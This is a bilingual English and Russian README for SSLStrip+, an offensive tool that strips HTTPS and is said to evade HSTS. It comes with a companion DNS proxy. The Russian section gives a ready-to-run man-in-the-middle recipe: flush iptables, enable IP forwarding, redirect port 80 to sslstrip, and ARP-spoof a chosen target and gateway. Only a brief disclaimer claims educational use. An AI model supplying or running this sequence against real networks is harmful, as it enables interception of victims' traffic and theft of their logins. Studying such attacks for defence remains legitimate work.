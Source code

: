 SSLStrip+
=========

This is a new version of [Moxie´s SSLstrip] (http://www.thoughtcrime.org/software/sslstrip/) with the new feature to avoid HTTP Strict Transport Security (HSTS) protection mechanism.  
  
This version changes HTTPS to HTTP as the original one plus the hostname at html code to avoid HSTS. Check my slides at BlackHat ASIA 2014 [OFFENSIVE: EXPLOITING DNS SERVERS CHANGES] (http://www.slideshare.net/Fatuo__/offensive-exploiting-dns-servers-changes-blackhat-asia-2014) for more information.  
  
For this to work you also need a DNS server that reverse the changes made by the proxy, you can find it at https://github.com/LeonardoNve/dns2proxy.


Demo video at: http://www.youtube.com/watch?v=uGBjxfizy48

Ru:

Это новая версия [Moxie´s SSLstrip] (http://www.thoughtcrime.org/software/sslstrip/) с новой возможностью обхода механизма защиты HTTP Strict Transport Security (HSTS).  
  
Эта версия меняет HTTPS на HTTP, как и оригинальная версия, плюс имя хоста в html-коде, чтобы избежать HSTS. Посмотрите мои слайды на BlackHat ASIA 2014 [OFFENSIVE: EXPLOITING DNS SERVERS CHANGES] (http://www.slideshare.net/Fatuo__/offensive-exploiting-dns-servers-changes-blackhat-asia-2014) для получения дополнительной информации.  
  
Для того чтобы это работало, вам также нужен DNS-сервер, который обращает изменения, сделанные прокси, вы можете найти его по адресу https://github.com/LeonardoNve/dns2proxy.

Установка:
(Всё делать под root!)
1. Рекомендуется использовать python 2.7.18 (установка на kali: https://www.kali.org/docs/general-use/using-eol-python-versions/)
2. pip install -r requirements.txt
3. python sslstrip.py

Использование (взято: https://kali.tools/?p=177):
1. Сбросить все правила для цепей.
iptables --flush (Выполнять и при завершении атаки)

2. Переключите вашу машину в режим пересылки (форвардинга).
echo "1" > /proc/sys/net/ipv4/ip_forward

3. Настройте iptables для редиректа HTTP трафика на sslstrip.
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port <listenPort>

4. Запустите sslstrip.
sslstrip.py -l <listenPort>

5. Запустите arpspoof, чтобы убедить сети, что им следует отправлять их трафик вам.
arpspoof -i <interface> -t <targetIP> <gatewayIP>
  
(Я не несу ответственности за ваши действия! Я за использование данного инструмента в образовательных целях!)
